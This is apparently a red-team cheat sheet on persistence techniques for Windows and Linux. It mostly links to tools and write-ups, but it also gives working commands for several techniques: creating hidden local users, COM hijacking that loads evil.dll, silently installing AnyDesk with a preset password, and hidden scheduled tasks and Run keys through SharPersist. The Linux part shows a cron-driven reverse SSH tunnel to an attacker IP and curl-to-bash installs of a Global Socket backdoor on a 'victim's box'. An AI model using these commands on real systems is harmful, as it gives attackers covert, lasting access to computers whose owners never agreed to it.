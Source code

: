 # Persistence

* [https://xakep.ru/2021/03/03/persistence-cheatsheet/](https://xakep.ru/2021/03/03/persistence-cheatsheet/)




## Windows

- [https://persistence-info.github.io/](https://persistence-info.github.io/)



### Scheduled Tasks

- [https://github.com/VirtualAlllocEx/Taskschedule-Persistence-Download-Cradles](https://github.com/VirtualAlllocEx/Taskschedule-Persistence-Download-Cradles)



### Hidden Local User

- [https://github.com/3gstudent/Windows-User-Clone](https://github.com/3gstudent/Windows-User-Clone)
- [https://github.com/wgpsec/CreateHiddenAccount](https://github.com/wgpsec/CreateHiddenAccount)


#### Dollar Sign

* [https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/](https://chaah.awankloud.my/redteaming-tips-creating-a-hidden-user/)

```
Cmd > net1.exe user snovvcrash$ Passw0rd! /add
```


#### SpecialAccounts

```
PS > New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name SpecialAccounts
PS > New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\" -Name snovvcrash -PropertyType DWord -Value 0 -Force
```


#### Suborner

- [https://r4wsec.com/notes/the_suborner_attack/](https://r4wsec.com/notes/the_suborner_attack/)
- [https://github.com/r4wd3r/Suborner](https://github.com/r4wd3r/Suborner)

```
PS > whoami
nt authority\system
PS > .\Suborner.exe /username:snovvcrash$ /password:Passw0rd!
```



### COM Hijacking

Locate good targets to hijack with Procmon filters:

- *Operation* is **RegOpenKey**
- *Result* is **NAME NOT FOUND**
- *Path* is **InprocServer32** (in-process server allowing the specified DLL to be loaded into current process memory space)

Locate CLSIDs from scheduled tasks:

{% code title="schtask.ps1" %}
```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
{% endcode %}

Check if a COM component exists under a relevant registry hive by its CLSID:

```
PS > Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
PS > Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
PS > Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
```

If it exists under `HKLM` but does **not** exists under `HKCU` hive, we can hijack this COM component by creating a new item in the latter path:

```
PS > New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
PS > New-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -Name "InprocServer32" -Value "C:\Windows\Tasks\evil.dll"
PS > New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}\InprocServer32" -Name "ThreadingModel" -Value "Both"
PS > Get-ItemProperty -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}\InprocServer32"
```



### RID Hijacking

- [https://r4wsecurity.blogspot.com/2017/12/rid-hijacking-maintaining-access-on.html](https://r4wsecurity.blogspot.com/2017/12/rid-hijacking-maintaining-access-on.html)
- [https://github.com/r4wd3r/RID-Hijacking](https://github.com/r4wd3r/RID-Hijacking)



### .LNK Shortcuts

- [https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)
- [https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Create-HotKeyLNK.ps1](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Create-HotKeyLNK.ps1)



### AnyDesk

- [https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface](https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface)
- [https://support.anydesk.com/knowledge/command-line-interface-for-windows](https://support.anydesk.com/knowledge/command-line-interface-for-windows)

```
Cmd > bitsadmin /transfer job1 https://download.anydesk.com/AnyDesk-CM.exe C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe
Cmd > C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe --install C:\Users\snovvcrash\AppData\Local\AnyDesk --start-with-win --silent
Cmd > del C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe
Cmd > echo Passw0rd! | C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --set-password
Cmd > cmd /c "for /f ""delims="" %i in ('C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i"
Cmd > C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --remove
```



### Tools


#### SharPersist

- [https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist)

```
beacon> execute-assembly SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <BASE64_CMD>" -n "Updater" -m add -o hourly
beacon> execute-assembly SharPersist.exe -t startupfolder -f "UserEnvSetup" -m add
beacon> execute-assembly SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```




## Linux



### SSH Tunnel in Crontab

{% code title="callback.sh" %}
```bash
#!/bin/bash
if [[ `ps -ef | grep -c 2222` -eq 1 ]]; then
  /usr/bin/ssh -nNT -R 2222:localhost:22 -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null -i /home/alice/.ssh/.k nopty@10.10.13.37
fi
```
{% endcode %}

Attacker's box:

```
$ sudo useradd -ms /bin/false nopty
$ sudo ssh-keygen -f /home/nopty/.ssh/dummy_key -t ed25519 -q -N ""
$ cat /home/nopty/.ssh/dummy_key.pub
$ sudo vi /home/nopty/.ssh/authorized_keys
from="10.10.13.38",command="echo 'Only port forwarding is allowed'",no-agent-forwarding,no-X11-forwarding,no-pty <DUMMY_KEY_PUB>
```

Victim's box:

```
$ curl 10.10.13.37/dummy_key > /home/alice/.ssh/.k
$ chmod 600 /home/alice/.ssh/.k
$ curl 10.10.13.37/callback.sh > /home/alice/.conf
$ chmod +x /home/alice/.conf
$ crontab -e
*/15 * * * * /home/alice/.conf
```



### Global Socket

* [https://www.gsocket.io/deploy/](https://www.gsocket.io/deploy/)


#### Install

Victim's box:

```
$ bash -c "$(curl -fsSL gsocket.io/x)"
$ bash -c "$(wget -qO- gsocket.io/x)"
```


#### Connect

Attacker's box:

```
$ cd ~/tools && bash -c "$(curl -fsSL https://tiny.cc/gsinst)" && cd
$ ~/tools/gsocket/tools/gs-netcat -s "<SECRET>" -i
```


#### Cleanup

Victim's box:

```
$ GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
$ GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"

$ pkill gs-bd
```



### Rootkits

* [0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)
